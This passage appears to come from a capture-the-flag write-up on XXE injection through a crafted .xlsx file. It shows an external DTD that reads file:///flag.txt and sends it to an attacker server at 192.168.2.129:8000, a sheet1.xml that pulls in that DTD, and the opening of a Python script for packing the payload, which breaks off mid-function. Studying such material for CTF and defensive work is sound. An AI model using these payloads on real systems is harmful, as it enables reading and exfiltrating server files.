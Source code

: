```dtd
<!ENTITY % file SYSTEM "file:///flag.txt">
<!ENTITY % x "<!ENTITY send SYSTEM 'http://192.168.2.129:8000/capture/%file;'>">
%x;
```

**sheet1.xml:**

```xml
<!DOCTYPE worksheet [
  <!ENTITY % ext SYSTEM "http://192.168.2.129:8000/evil.dtd">
  %ext;
]>
<worksheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
  <dimension ref="A1:E20"/>
  <sheetData>
    <row r="1"><c r="A1" t="inlineStr"><is><t>&send;</t></is></c></row>
  </sheetData>
</worksheet>
```

### 6.4 Injecting the payload
1. You could rename, unzip, modify, rezip, and rename it back to an `.xlsx` file but i will be using an Chatgpt'd script for this, since its more convenient.

```python
# I'll call this file xxe_pack.py
#!/usr/bin/env python3
import argparse
import secrets
import sys
import zipfile
from pathlib import Path

#Edit this if you wnat to change where it is injected
SHEET1_PATH = "xl/worksheets/sheet1.xml"

def replace_sheet(in_path: Path, out_path: Path, sheet_payload: bytes) -> None:
    if not in_path.exists():
        raise FileNotFoundError(in_path)
    with zipfile.ZipFile(in_path, "r") as zin, zipfile.ZipFile(out_path, "w") as zout:
        found = False
        for info in zin.infolist():
            data = zin.read(info.filename)
            if info.filename == SHEET1_PATH:
                found = True
                zi = zipfile.ZipInfo(filename=info.filename, date_time=info.date_time)
                zi.compress_type = info.compress_type
                zi.external_attr = info.external_attr
                zi.create_system = info.create_system
                zout.writestr(zi, sheet_payload)
            else:
                zout.writestr(info, data)
        if not found:
            zi = zipfile.ZipInfo(filename=SHEET1_PATH)
            zi.compress_type = zipfile.ZIP_DEFLATED
            zout.writestr(zi, sheet_payload)

def read_payload_interactive() -> str:
    print("\n=== Paste your sheet1.xml payload or payload for any file (end with Ctrl+Z+Enter on Windows or Ctrl+D on macOS/Linux).")
    print("=== Or type a single line 'EOF' to finish. Leave empty to use the default payload.\n")
    buf = []
    try:
        # If something piped in, read it all.
        if not sys.stdin.isatty():
```
